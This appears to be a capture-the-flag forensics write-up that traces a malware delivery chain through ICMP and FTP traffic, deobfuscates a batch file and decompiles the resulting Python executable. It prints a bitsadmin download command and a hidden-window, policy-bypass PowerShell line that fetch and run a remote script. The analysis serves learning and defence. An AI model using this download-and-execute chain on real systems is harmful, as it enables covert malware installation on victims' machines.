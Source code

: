 ## Description
![](oli1.png)
///caption
///

## Solution
![](oli2.png)
Going through ICMP protocol, we can see some message there: “Boss, i have hacked into someone computer. Let me try the new malware we developed here!” 

![](oli3.png) 
Going through the FTP stream we can see the attacker log in using FTP and and perform file transferring. 

![](oli4.png) 
Looking the next stream would be the file that is transferred, which looks like an obfuscated batch file. We can search for [batch deobfusctator](https://github.com/DissectMalware/batch_deobfuscator) online to get the content of the file 

```batch {title="OliRod.bat"}
bitsadmin.exe /transfer "78fb98208c7f6ee6c0ed7bf761e614eb" https://raw.githubusercontent.com/6E3372/OliRod/main/Photo/Olivia.ps1 \Olivia.ps1

powershell.exe -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND "\Olivia.ps1" 
```
We can navigate to the GitHub link to download the PowerShell file named `Olivia.ps1`. 
![](oli5.png)
This file is also kind of obfuscated which makes it hard for us to understand the function. We need to read and understand the code within the function in order to know what is going on in this file. 
![](oli6.png) 
Instead of understanding line by line and decoding it, we can just run the code using [tio.run](https://tio.run/#powershell).  We can deduce that this PowerShell script is trying to download `OliviaRodrigo.exe` and rename it into random strings. 
![](oli7.png) 
After downloading the file, using `strings` command we can guess that this might be a Python executable. Therefore, we can try to decompile it and get the source code. 
![](oli8.png) 
Decompile the exe by using [pyinstractor](https://github.com/extremecoders-re/pyinstxtractor) and [decompyle++](https://github.com/extremecoders-re/decompyle-builds/releases/tag/build-16-Aug-2024-dc6ca4a) so that we can get the source code back. 
![](oli9.png)